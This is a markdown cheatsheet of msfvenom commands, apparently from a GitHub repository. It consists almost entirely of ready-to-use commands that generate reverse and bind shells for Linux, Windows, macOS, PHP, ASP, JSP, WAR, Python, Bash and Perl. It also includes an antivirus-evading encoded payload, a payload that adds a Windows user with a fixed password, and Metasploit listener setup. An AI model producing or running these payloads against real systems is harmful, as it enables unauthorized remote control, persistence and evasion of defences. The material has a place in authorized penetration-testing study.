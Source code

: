## MSVenom-Cheatsheet

### Linux

Linux Meterpreter Reverse Shell

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

Linux Bind Meterpreter Shell

    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

Linux Bind Shell

    msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

---

### WIndows

Windows Meterpreter Reverse TCP Shell

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Reverse TCP Shell

    msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Encoded Meterpreter Windows Reverse Shell

    msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Mac Reverse Shell

    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

Mac Bind Shell

    msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho

---

### Web Payloads

PHP Meterpreter Reverse TCP

    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
	sudo apt-get install xclip -y
    cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> shell.php
    

Another PHP shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

ASP Meterpreter Reverse TCP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

JSP Java Meterpreter Reverse TCP

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

---

### Scripting Payloads

Python Reverse Shell

    msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell

    msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell

    msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

---

### Shellcode

Windows Meterpreter Reverse TCP Shellcode

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Linux Meterpreter Reverse TCP Shellcode

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Mac Reverse TCP Shellcode

    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

---

### Other

Create User

    msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

Metasploit Handler

    use exploit/multi/handler
    set PAYLOAD <Payload name>
    Set RHOST <Remote IP>
    set LHOST <Local IP>
    set LPORT <Local Port>
    Run





